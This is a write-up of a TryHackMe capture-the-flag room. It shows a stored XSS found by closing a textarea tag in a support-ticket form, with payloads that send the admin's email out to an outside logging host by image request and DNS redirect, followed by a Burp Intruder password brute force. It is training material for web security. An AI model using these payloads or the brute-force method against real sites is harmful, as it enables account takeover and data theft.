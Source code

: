 # That's The Ticket

## Introduction:

Welcome to my another writeup! In this TryHackMe [That's The Ticket](https://tryhackme.com/room/thatstheticket) room, you'll learn: Stored XSS, or Cross-Site Scripting! Without further ado, let's dive in.

## Background

> IT Support are going to have a bad day, can you get into the admin account?

> Difficulty: Medium

```
IT Support is going to have a really bad day today, but don't think they're stupid! They have really strict firewalls!

Using the IT support portal try and make your way into the admin account.

Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful! 
```

- Overall difficulty for me: Easy

# Task 1 - Lab Informaion

- Question: What is IT Supports email address?

As usual, scan the machine for open ports via `rustscan`!

**Rustscan:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/That's-The-Ticket]
└─# export RHOSTS=10.10.213.250
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/That's-The-Ticket]
└─# rustscan --ulimit 5000 -t 2000 --range=1-65535 $RHOSTS -- -sC -sV -oN rustscan/rustscan.txt
[...]
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8dfacBZcXm48CzKZh1Vd6tO6p86sR7PyBbxJj9q9Zifzlq+GmD+r1eXLaH+waOWnD/fmPr8CtScSVP0iu0opnIZ21A4Zy/SOjNKVuDWGWP36cj/XxiTlLL3qfOk0OXy/xVEYycYWhiJm1VLhOSg5Tk3xGGJRBY9V1MfBF/Oq2DdEcODzUnh/JLikJctZ15DwGTaY+6ehl6Kh1PwRQ6XZmhLP42P9NtPCY8AkXCO2EJrE/tzckhUzi4vr17Z0M4zZd8AZX1SfX3t5hULhKMDbQ7zRQNTIeaLYdPBa4Yu3Ze2annUvOlKhnTKm+omW7vbXKWurIWRqyG59F12sNHl3P
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO1cxZc0WJgiYCd7m7sxzMYbgVLjqIc40ZZi4Y+M+YHJeISCq1bhTMLSpIWHxwpnQg+qVD3wrgYWI9Hr6FGGMrg=
|   256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFCYrvmQ5DCiI8ZbvzVWWIkj1apQr36j4vJ8K8MfUCKz
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.6p1 Ubuntu
80	              | nginx 1.14.0 (Ubuntu)

## HTTP on Port 80

**In the home page, we can see that we're able to login or register an account:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a1.png)

**`/login`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a2.png)

In the login page, I tried to authentication bypass with SQL injection, but no dice.

**Then I guess we'll have to register an account in `/register`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a3.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a4.png)

After we registered an account, we can create a ticket. I'll create a ticket for testing purposes:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a5.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a6.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a7.png)

I also tried the IDOR, or Insecure Direct Object Reference, but when I reach `/1`, it redirects me to the home page.

Now, **why not test the message box is vulnerable to XSS, or Cross-Site Scripting?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a8.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a9.png)

The `alert(1)` is not working?

After inspecting the message box, I found that **this is a `textarea` in HTML**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a10.png)

**To bypass `textarea`, we can just simply close that tag by adding `</textarea>` before our XSS payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a11.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a12.png)

Yes!!! We trigged the XSS vulnerability, and it's a stored XSS!

**Now, we can create an iframe XSS payload!**

> Note: You can create HTTP & DNS Logging tool in [TryHackMe Request Catcher](http://10.10.10.100).

**payload:**
```html
</textarea><iframe src="http://cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/">
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a13.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a14.png)

Confirmed that we have a call back.

**Now we need admin's email in question 1**

After logged in, the top-right hand corner has **a `<span>` tag, which contains the `email` id**:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a15.png)

We can leverage the XSS vulnerability to capture admin's email via the follow payload! (From a [GitHub repository](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) and a [StackOverflow post](https://stackoverflow.com/questions/13341095/how-to-get-the-value-of-id-of-innerhtml).) 

```html
</textarea><script>var i=new Image;i.src="http://cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/?"+document.getElementById('email').innerHTML;</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a16.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a17.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a18.png)

> Note: Some DNS requests are the admin user. 

Successfully capture our email, let's capture the admin's email!

**Since URL encoding will break special characters like `@` and `.`, we need to escape them:**
```html
</textarea><script>
var i = document.getElementById('email').innerText;
i = i.replace('@', 'at')
i = i.replace('.', 'dot')
document.location = 'http://' + i + '.cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/';
</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a19.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a20.png)

**In one of those DNS requests, we can see that there is an email for user `admin`!!**

- Question 2: Admin users password

Armed with admin's email, **we can bruteforce his password via Burp Suite Intruder!**

**To do so, I'll:**

- Intercept the POST request in `/login` via Burp Suite:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a21.png)

- Send the intercepted request to `Intruder`: (`Ctrl + i`)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a22.png)

- Clear all positions via `Clear` button:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a23.png)

- Highlight the password, and add position to it via `Add` button:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a24.png)

- Load a password wordlist payload in `Payloads` tab:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a25.png)

- After loaded, click `Start Attack`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a26.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a27.png)

**Found the password!**

- Question 3: Flag inside Ticket 1

**Let's login to the admin user!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a28.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a29.png)

We're in!

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/That's-The-Ticket/images/a30.png)

# Conclusion

What we've learned:

1. Stored XSS (Cross-Site Scripting)
2. Password Bruteforcing in HTTP POST Form